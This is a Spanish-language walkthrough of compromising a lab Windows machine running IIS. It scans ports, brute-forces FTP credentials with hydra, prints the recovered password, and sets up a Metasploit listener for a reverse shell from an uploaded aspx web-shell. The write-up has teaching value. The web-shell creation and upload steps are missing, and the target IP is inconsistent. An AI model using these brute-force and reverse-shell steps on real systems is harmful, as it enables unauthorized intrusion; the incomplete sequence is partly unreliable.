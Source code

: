 
![](img/Pasted%20image%2020241227171555.png#center)


Esta máquina llamada `Cocido Andaluz`, tiene una vulnerabilidad en el puerto **HTTP 80**, que corre el servicio *Microsoft IIS*, donde utilizaremos la fuerza bruta para obtener credenciales, las cuales, nos servirán para obtener acceso al protocolo *FTP* que también está abierto y tener acceso para subir un fichero malicioso con la extensión *aspx* y poder cargar un ejecución remota de comandos desde la web, la cual, después nos dará una *reverse shell* en nuestro terminal atacante.

---

## Reconocimiento

Hacemos un descubrimiento de los hosts a los cuales tenemos acceso. Por la *MAC* que empieza por `08:00` podemos saber que es un Hosts virtualizado, por lo tanto sabemos la IP de la máquina victima *192.168.1.20*
```
sudo arp-scan -I eth0 --localnet
```

![](img/Pasted%20image%2020241227171924.png#center)


Realizamos un envío de paquetes para ver si tenemos conexión con la máquina
```
ping -c 1 192.168.1.21
```

![](img/Pasted%20image%2020241227171955.png#center)

Tenemos conexión y vemos según el *TTL* que se trata de una máquina que tiene instalado un sistema operativo Windows.

---

## Enumeración

#### Escaneo de puertos
Realizamos un escaneo de puertos básico con **nmap** para identificar los puertos que están abiertos:
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 192.168.1.21
```

![](img/Pasted%20image%2020241227172316.png#center)


Tenemos varios puertos abiertos, alguno de ellos con un servicio desconocidos. Los que si tenemos la información de los servicios son:

**Resultados del escaneo:**

| Puerto  | Estado  | Servicio     | Función principal                                                                                                                                                                                                                                                                                      |
| ------- | ------- | ------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| 21/tcp  | abierto | ftp          | **FTP**: Protocolo utilizado para transferir archivos entre computadoras                                                                                                                                                                                                                               |
| 80/tcp  | abierto | http         | **HTTP**: Protocolo utilizado para la comunicación entre un servidor web y un navegador web.                                                                                                                                                                                                           |
| 135/tcp | abierto | msrpc        | **Endpoint Mapper:** Es como una guía telefónica para los servicios de RPC (Remote Procedure Call) en un sistema Windows. Permite a los clientes localizar y comunicarse con servicios específicos en el servidor.                                                                                     |
| 139/tcp | abierto | netbios-ssn  | **NetBIOS Session Service:** Este servicio es fundamental para compartir archivos e impresoras en redes locales. Utiliza el protocolo NetBIOS para establecer sesiones y comunicarse entre dispositivos.                                                                                               |
| 445/tcp | abierto | microsoft-ds | **Microsoft Directory Services:** Este puerto se utiliza principalmente para los Servicios de Directorio de Microsoft, como Active Directory. Facilita la gestión de usuarios, equipos, grupos y otros objetos en una red. También se emplea para compartir archivos y recursos entre equipos Windows. |



Realizamos un segundo escaneo a los puertos abiertos, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios, de los puertos más interesantes.
```
nmap -p21,80,135,139,445 -sVC --min-rate 5000 -n -Pn 192.168.1.21
```

![](img/Pasted%20image%2020241227172855.png#center)

Vemos que el servicio *FTP* no tiene el acceso con el usuario `anonymous` y en el puerto *HTTP*, tenemos una versión *Microsoft IIS httpd 7.0*,  es un servidor web de Microsoft que permite hospedar sitios y aplicaciones web, soportando protocolos como HTTP/HTTPS y FTP. Se integra estrechamente con Windows, es escalable y seguro si está bien configurado. En un escaneo, "Microsoft IIS httpd" indica que un servidor IIS está respondiendo a solicitudes HTTP en el puerto detectado. Y soporta múltiples protocolos (HTTP/HTTPS, FTP y WEBDAV(acceso remoto a archivos)).

---

<h3><center> Análisis servicio SMB  (puerto 445)</center></h3>

Intento ver con una sesión nula los archivos compartidos en el protocolo SMB.
```
smbclient -L 192.168.1.21 -N
```

![](img/Pasted%20image%2020241227174200.png#center)

Vemos que no es posible ver los recursos compartidos

---


<h3><center> Análisis servicio HTTP Microsoft IIS (puerto 80)</center></h3>

Voy al navegador web y en la URL pongo la dirección IP.
![](img/Pasted%20image%2020241227173311.png#center)



Nos muestra una web de Apache, pero esto es para engañarnos, ya que normalmente un servidor de Microsoft IIS se debería ver así:
![](img/Pasted%20image%2020241227173522.png#center)


### Fuzzing Web
Realizamos un *fuzzing web*, para descubrir posibles ruta, directorios o archivos que estén en la IP.
#### gobuster
```
gobuster dir -u http://192.168.1.21/wordpress -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x asp,aspx,php,txt
```

![](img/Pasted%20image%2020241227174314.png#center)

Vemos que no encuentro nada interesante, pruebo a realizar lo mismo pero con la herramienta `dirb`


#### dirb
```
dirb http:/192.168.1.21
```

![](img/Pasted%20image%2020241227174443.png#center)



Nos encontró una ruta interesante `http://192.168.1.21/aspnet_client/`, lo probamos en el navegador

![](img/Pasted%20image%2020241227174545.png#center)


No tenemos acceso, por lo que podemos usar el protocolo FTP para realizar fuerza bruta e intentar obtener algunas credenciales.

---

<h3><center> Análisis servicio FTP Microsoft FTPD (puerto 21)</center></h3>

### Fuerza Bruta

Vamos a intentar obtener usuario y contraseña por medio de la fuerza bruta a este protocolo
```
hydra ftp://192.168.1.20 -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt
```

![](img/Pasted%20image%2020241231140554.png#center)


Encontramos las credenciales, por lo que nos conectamos por medio del protocolo *FTP*
```
ftp info@192.168.1.20     # Después nos pide la contraseña PolniyPizdec0211
```

![](img/Pasted%20image%2020241231140711.png#center)


Encontramos ficheros relacionados con la página web. 

Podemos subir 


Nos ponemos a la escucha con el módulo `multi/handler` de *mestasploit*. Iniciamos el *metasploit*.
```
msfconsole init -q
```

![](img/Pasted%20image%2020241231142146.png#center)




Buscamos el módulo
```
search /multi/handler
```

![](img/Pasted%20image%2020241231142227.png#center)


Miramos las opciones
```
show options
```

![](img/Pasted%20image%2020241231142340.png#center)


Cambiamos lo necesario, que como en el exploit creado con `msfvenom`, ya pusimos el puerto 4444, solo tenemos que cambiar el LHOST y poner la IP de la máquina atacante.
```
set LHOST 192.168.1.28
```

![](img/Pasted%20image%2020241231142518.png#center)

Ejecutamos el exploit
```
exploit
```

![](img/Pasted%20image%2020241231142553.png#center)


Ahora `metasploit` está a la escucha, lo que tenemos que hacer es ejecutar la web-shell que creamos con `msfvenom`, para ello vamos al navegador y en la URL ponemos la ubicación de la `web-shell`.

